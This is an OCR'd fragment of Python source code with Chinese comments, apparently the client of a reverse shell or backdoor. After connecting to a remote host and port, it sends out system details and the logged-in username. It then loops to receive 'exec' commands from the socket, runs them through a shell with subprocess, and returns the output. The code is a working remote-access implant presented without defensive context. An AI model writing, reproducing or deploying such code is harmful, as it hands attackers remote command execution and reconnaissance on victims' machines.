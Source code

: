 ```
    conn.connect((host,port))

    x_info = ""

    #for x in os.uname():
    for x in platform.uname():
        x_info += x + ","

    # 平台判断
    if platform.system() == "Linux":
        x_info += os.getlogin()  # Linux平台
    elif platform.system() == "Windows":
        x_info += os.getenv('username')  # Windows

    # 发送数据
    conn.send(x_info)

    # 会话维持
    interactive_session(conn)
    conn.close()

# 会话维持
def interactive_session(conn):
    while 1:
        try:
            command = str(conn.recv(1024))
        except socket.error:
            sys.exit(1)

        if command.split(" ")[0] == "exec":
            res = 1
            msg = ""

            while len(command.split(" ")) &gt; res:
                msg += command.split(" ")[res] + " "
                res += 1

            sh = sp.Popen(msg,shell=True,
                          stdout= sp.PIPE,
                          stderr = sp.PIPE,
                          stdin= sp.PIPE)
            out,err = sh.communicate()

            result = str(out) + str(err)

            send_data(conn,result)

        elif command == "exit()":
            break
        else:
            send_data(conn,"[-] Unknown Command")
# 发送数据
def send_data(conn,data):
    length = str(len(data)).zfill(16)
    conn.send(length + data)

if __name__ == "__main__":
    connect()
```
